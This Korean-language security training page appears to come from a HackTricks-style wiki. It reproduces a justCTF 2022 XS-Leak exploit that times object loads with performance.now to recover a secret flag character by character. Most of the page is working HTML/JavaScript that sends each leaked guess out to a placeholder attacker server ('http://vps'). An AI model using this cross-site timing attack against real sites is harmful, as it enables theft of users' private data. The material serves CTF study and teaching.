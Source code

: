 # performance.now + Force heavy task

{{#include ../../banners/hacktricks-training.md}}

**Exploit taken from [https://blog.huli.tw/2022/06/14/en/justctf-2022-xsleak-writeup/](https://blog.huli.tw/2022/06/14/en/justctf-2022-xsleak-writeup/)**

이 도전에서 사용자는 수천 개의 문자를 보낼 수 있었고, 플래그가 포함되어 있다면 문자가 봇으로 다시 전송되었습니다. 따라서 많은 양의 문자를 보내면 공격자는 전송된 문자열에 플래그가 포함되어 있는지 측정할 수 있었습니다.

> [!WARNING]
> 처음에는 객체의 너비와 높이를 설정하지 않았지만, 나중에 로드 시간에 차이를 만들기에는 기본 크기가 너무 작기 때문에 중요하다는 것을 알게 되었습니다.
```html
<!DOCTYPE html>
<html>
<head> </head>
<body>
<img src="https://deelay.me/30000/https://example.com" />
<script>
fetch("https://deelay.me/30000/https://example.com")

function send(data) {
fetch("http://vps?data=" + encodeURIComponent(data)).catch((err) => 1)
}

function leak(char, callback) {
return new Promise((resolve) => {
let ss = "just_random_string"
let url =
`http://baby-xsleak-ams3.web.jctf.pro/search/?search=${char}&msg=` +
ss[Math.floor(Math.random() * ss.length)].repeat(1000000)
let start = performance.now()
let object = document.createElement("object")
object.width = "2000px"
object.height = "2000px"
object.data = url
object.onload = () => {
object.remove()
let end = performance.now()
resolve(end - start)
}
object.onerror = () => console.log("Error event triggered")
document.body.appendChild(object)
})
}

send("start")

let charset = "abcdefghijklmnopqrstuvwxyz_}".split("")
let flag = "justCTF{"

async function main() {
let found = 0
let notFound = 0
for (let i = 0; i < 3; i++) {
await leak("..")
}
for (let i = 0; i < 3; i++) {
found += await leak("justCTF")
}
for (let i = 0; i < 3; i++) {
notFound += await leak("NOT_FOUND123")
}

found /= 3
notFound /= 3

send("found flag:" + found)
send("not found flag:" + notFound)

let threshold = found - (found - notFound) / 2
send("threshold:" + threshold)

if (notFound > found) {
return
}

// exploit
while (true) {
if (flag[flag.length - 1] === "}") {
break
}
for (let char of charset) {
let trying = flag + char
let time = 0
for (let i = 0; i < 3; i++) {
time += await leak(trying)
}
time /= 3
send("char:" + trying + ",time:" + time)
if (time >= threshold) {
flag += char
send(flag)
break
}
}
}
}

main()
</script>
</body>
</html>
```
{{#include ../../banners/hacktricks-training.md}}
